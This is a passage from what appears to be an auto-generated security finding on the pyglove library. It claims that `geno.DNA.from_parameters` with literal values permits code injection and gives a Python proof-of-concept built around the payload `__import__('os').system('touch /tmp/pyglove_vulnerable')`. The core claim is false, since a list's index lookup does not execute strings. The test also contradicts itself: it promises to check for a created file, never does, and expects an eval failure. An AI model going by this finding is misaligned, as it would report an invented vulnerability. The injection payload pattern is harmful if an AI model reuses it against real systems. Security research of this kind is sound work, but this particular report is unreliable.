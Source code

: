         c. If an attacker can control the `candidates` to contain malicious string, the `literal_values` will contain the malicious string.
        d. When `geno.DNA.from_parameters` is called with `use_literal_values=True` and the malicious string is passed as `param_value`, the `literal_values.index(param_value)` will be executed, leading to code injection.

    - Security Test Case:
        1. Step 1: Define a malicious payload string. For example: `malicious_payload = "__import__('os').system('touch /tmp/pyglove_vulnerable')"`
        2. Step 2: Create a hyper value with `pg.oneof` or `pg.manyof` with `candidates` containing the malicious payload string.
        ```python
        import pyglove as pg
        malicious_hyper = pg.oneof(['normal_value', malicious_payload])
        ```
        3. Step 3: Create an `ObjectTemplate` from the hyper value.
        ```python
        template = pg.template({'x': malicious_hyper})
        ```
        4. Step 4: Encode a normal value to get a DNA spec.
        ```python
        dna_spec = template.dna_spec()
        ```
        5. Step 5: Craft a malicious parameter dict with `use_literal_values=True` and malicious payload string as parameter value.
        ```python
        params = {'x': malicious_payload}
        ```
        6. Step 6: Trigger the vulnerability by calling `geno.DNA.from_parameters` with the malicious parameter dict and DNA spec.
        ```python
        pg.geno.DNA.from_parameters(params, dna_spec, use_literal_values=True)
        ```
        7. Step 7: Verify the arbitrary code execution. In this test case, check if the file `/tmp/pyglove_vulnerable` is created.

Security Test Case:
```python
import pyglove as pg
import tempfile
import os

# Step 1: Define a malicious payload string.
malicious_payload = "__import__('os').system('touch /tmp/pyglove_vulnerable')"

# Step 2: Create a hyper value with `pg.oneof` with `candidates`
# containing the malicious payload string.
malicious_hyper = pg.oneof(['normal_value', malicious_payload])

# Step 3: Create an `ObjectTemplate` from the hyper value.
template = pg.template({'x': malicious_hyper})

# Step 4: Encode a normal value to get a DNA spec.
dna_spec = template.dna_spec()

# Step 5: Craft a malicious parameter dict with `use_literal_values=True`
# and malicious payload string as parameter value.
params = {'x': malicious_payload}

# Step 6: Trigger the vulnerability by calling `geno.DNA.from_parameters`.
try:
  pg.geno.DNA.from_parameters(params, dna_spec, use_literal_values=True)
except ValueError:
  # Expect ValueError to be raised due to eval failure.
  pass
```